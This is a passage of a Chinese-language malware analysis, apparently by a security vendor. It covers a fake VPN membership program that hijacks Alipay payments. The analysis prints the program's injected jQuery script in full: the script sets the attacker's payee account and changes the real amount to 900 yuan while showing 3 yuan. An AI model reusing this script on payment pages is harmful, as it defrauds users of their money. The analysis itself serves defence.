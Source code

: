 当然,只是不管你在何时以何种姿势点击连接,都会提示您会员已经过期。没办法,只有点击购物车按钮,购买会员才能使用。

在购买界面,给出的应付金额是3元,在这个黄金周的旅游景区,上个厕所都比这个贵,所以分分钟就点击了同意开通。



[![](https://p2.ssl.qhimg.com/t014a671fb1a2defcb9.png)](https://p2.ssl.qhimg.com/t014a671fb1a2defcb9.png)

事实上点击了同意开通后,样本执行了如下不为用户所知的动作:

1.访问http://463038264.lofter.com网站,读取到包括每次转账的金额(这里为每次转900元)、转账时显示的支付宝姓名(这里为长江电子商务有限公司)以及支付宝账号(lrh103272@163.com)等配置信息。



[![](https://p5.ssl.qhimg.com/t0127387769541ca8a3.png)](https://p5.ssl.qhimg.com/t0127387769541ca8a3.png)

2.带着http://www.alipay.com参数启动IEXPLORE.EXE,使用易语言(恶意代码作者的日常之选)封装的DOM类库,查找当前浏览器是不是正在进行付款操作。



[![](https://p5.ssl.qhimg.com/t01fd39bd536c785adc.png)](https://p5.ssl.qhimg.com/t01fd39bd536c785adc.png)

3.如果当前正在进行付款操作,根据付款的流程,修改网页的显示。

使用易语言的类成员方法(0x4040DB处),修改页面显示内容。此处方法有两个参数,参数一为“exescript”,参数二为要运行的脚本代码。将页面上显示的金额信息与付款金额填写为下图样式。至此,细心的人应该发现,软件能够帮你把金额和收款人自动填写上,当然也可以悄无声息地修改信息。



[![](https://p5.ssl.qhimg.com/t016d41251d8594293b.png)](https://p5.ssl.qhimg.com/t016d41251d8594293b.png)

参数二的脚本内容为:

seajs.use("jquery",function($)

`{`$('#reason').val('USERvpn111 MCZ2016254525');

$('#ipt-search-key').val('lrh103272@163.com');

vara1=$('#amount').clone();

$('#amount').css('display','none');

$('#amunt').val('900');a1.val('3');

a1.attr('id','amount1');

a1.removeAttr('name');

a1.insertAfter($('label[for="amount"]'));

`}`

);



[![](https://p2.ssl.qhimg.com/t01dfee4b41caf5f6a6.png)](https://p2.ssl.qhimg.com/t01dfee4b41caf5f6a6.png)

4.在上一步的操作中,支付宝实际支付的金额已经被修改成了900元,只不是因为软件作者通过脚本将显示的数字改成3元。在支付宝付款过程中,单击下一步后,正常的页面应该是这样的:
